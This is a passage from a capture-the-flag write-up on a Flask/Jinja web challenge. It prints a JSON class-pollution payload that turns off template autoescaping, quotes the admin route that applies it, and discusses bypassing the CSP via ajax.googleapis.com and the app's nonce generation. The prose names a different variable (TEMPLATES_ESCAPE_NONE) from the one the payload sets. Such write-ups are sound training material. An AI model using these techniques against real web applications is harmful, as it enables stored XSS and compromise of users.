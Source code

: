 **We can do the exact same thing to variable `TEMPLATES_ESCAPE_ALL`!**
```json
{
    "title":"literally_anything",
    "content":"literally_anything",
    "rating":"literally_anything",
    "referred":"literally_anything",
    "__init__":{
        "__globals__":{
            "TEMPLATES_ESCAPE_ALL": false
        }
    }
}
```

But wait a minute, the Jinja environment won't get updated? Right?

**Unfortunately, there's a POST route at `/admin/update-accepted-templates` to update Jinja environment:**
```python
# Future Admin routes - FOR TEST ENVIRONMENT ONLY
@app.route("/admin/update-accepted-templates", methods=["POST"])
@login_required
def update_template():
    data = json.loads(request.data)
    # Enforce strict policy to filter all expressions
    if "policy" in data and data["policy"] == "strict":
        template_env.env = Environment(loader=PackageLoader("app", "templates"), autoescape=TEMPLATES_ESCAPE_ALL)
    # elif "policy" in data and data["policy"] == "lax":
    #     template_env.env = Environment(loader=PackageLoader("app", "templates"), autoescape=TEMPLATES_ESCAPE_NONE)
    # TO DO: Add more configurations for allowing LateX, XML etc. to be configured in app
    return jsonify({"success": "true"}), 200
```

If we pollute `TEMPLATES_ESCAPE_NONE` and then send a POST request to `/admin/update-accepted-templates` with JSON body data `{"policy":"strict"}`, the Jinja environment's `autoescape` will be updated to our polluted value `False`.

Nice! Now the web application should be vulnerable to stored XSS... Wait a minute, there's a CSP (Content Security Policy) to minimize the impact of XSS:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2024/images/Pasted%20image%2020240709174017.png)

If we go to [Google's CSP Evaluator](https://csp-evaluator.withgoogle.com/), we can see that the `script-src` directive can be bypassed via `ajax.googleapis.com`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2024/images/Pasted%20image%2020240709174152.png)

We could bypass the CSP `script-src` directive via `ajax.googleapis.com`. However, we could also take a look at the nonce generation:

```python
from .utils import merge, save_feedback_to_disk, generate_random_string
[...]
# Secret used to generate a nonce to be used with the CSP policy 
SECRET_NONCE = generate_random_string()
# Use a random amount of characters to append while generating nonce value to make it more secure
RANDOM_COUNT = random.randint(32,64)
[...]
def generate_nonce(data):
    nonce = SECRET_NONCE + data + generate_random_string(length=RANDOM_COUNT)
    sha256_hash = hashlib.sha256()
    sha256_hash.update(nonce.encode('utf-8'))
    hash_hex = sha256_hash.hexdigest()
    g.nonce = hash_hex
```